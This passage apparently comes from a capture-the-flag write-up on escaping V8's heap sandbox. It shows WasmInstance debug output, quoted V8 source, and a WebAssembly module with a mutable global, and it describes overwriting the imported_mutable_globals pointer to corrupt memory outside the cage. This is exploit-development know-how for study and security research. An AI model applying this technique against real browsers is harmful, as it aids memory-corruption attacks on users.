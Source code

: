 ~~~
 - feedback vectors: 0x238b08002249 <FixedArray[0]>
 - memory_start: 0x238c81010000
 - memory_size: 65536
 - imported_function_targets: 0x55dff38bbcd0
 - globals_start: (nil)
 - imported_mutable_globals: 0x55dff38bbcf0
 - indirect_function_table_size: 0
 - indirect_function_table_sig_ids: (nil)
 - indirect_function_table_targets: (nil)
 - properties: 0x238b08002249 <FixedArray[0]>
 - All own properties (excluding elements): {}
~~~
After printing the object, my attention was immediately drawn to `imported_function_targets` and `imported_mutable_global` because they are the only ptmalloc heap pointers in the printed result.

I had no idea what they were so I Googled `imported_mutable_global` first and found this snippet:
~~~
int index = num_imported_mutable_globals++;
instance->imported_mutable_globals_buffers()->set(index, *buffer);
// It is safe in this case to store the raw pointer to the buffer
// since the backing store of the JSArrayBuffer will not be
// relocated.
instance->imported_mutable_globals()[index] =
    reinterpret_cast<Address>(
        raw_buffer_ptr(buffer, global_object->offset()));
~~~
It seems like it is an array that stores all global variables used in the webassembly code. This is interesting, maybe we can overwrite the pointer and force the webassembly code to store globals somewhere else, potentially outside of the cage?

I checked the content of `imported_mutable_global` in memory and it was empty. This was because the sample webassembly did not use globals at all. So, I Googled again about how to write webassembly code, and specifically about how to use globals and then I came cross [this page](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/WebAssembly/Global/Global). I copy-pasted the wat code from its [reference repo](https://github.com/mdn/webassembly-examples/blob/master/js-api-examples/global.wat) and compiled it into wasm using the [wabt](https://github.com/WebAssembly/wabt) toolkit and loaded the compiled wasm into my script. This small wasm basically implements the simple functionality to increase a global variable by 1.
The wat code is shown as follow:
~~~
(module
   (global $g (import "js" "global") (mut i32))
   (func (export "getGlobal") (result i32)
        (global.get $g))
   (func (export "incGlobal")
        (global.set $g
            (i32.add (global.get $g) (i32.const 1))))
)
~~~

Now we can use the following snippet to create a `WASMInstance` that uses globals:
~~~
var global = new WebAssembly.Global({value:'i64', mutable:true}, 0n);
var wasm_code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 12, 3, 96, 0, 1, 126, 96, 0, 0, 96, 1, 126, 0, 2, 14, 1, 2, 106, 115, 6, 103, 108, 111, 98, 97, 108, 3, 126, 1, 3, 4, 3, 0, 1, 2, 7, 37, 3, 9, 103, 101, 116, 71, 108, 111, 98, 97, 108, 0, 0, 9, 105, 110, 99, 71, 108, 111, 98, 97, 108, 0, 1, 9, 115, 101, 116, 71, 108, 111, 98, 97, 108, 0, 2, 10, 23, 3, 4, 0, 35, 0, 11, 9, 0, 35, 0, 66, 1, 124, 36, 0, 11, 6, 0, 32, 0, 36, 0, 11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod, {js: {global}});
~~~
For experimentation, I overwrote `imported_mutable_global` to `0x4141414141414141` in the `WASMInstance` and invoke `wasm_instance.exports.incGlobal()`. And then, Crash!
![crash](https://github.com/Kyle-Kyle/blog/raw/master/_posts/resource/dice22/crash.png)
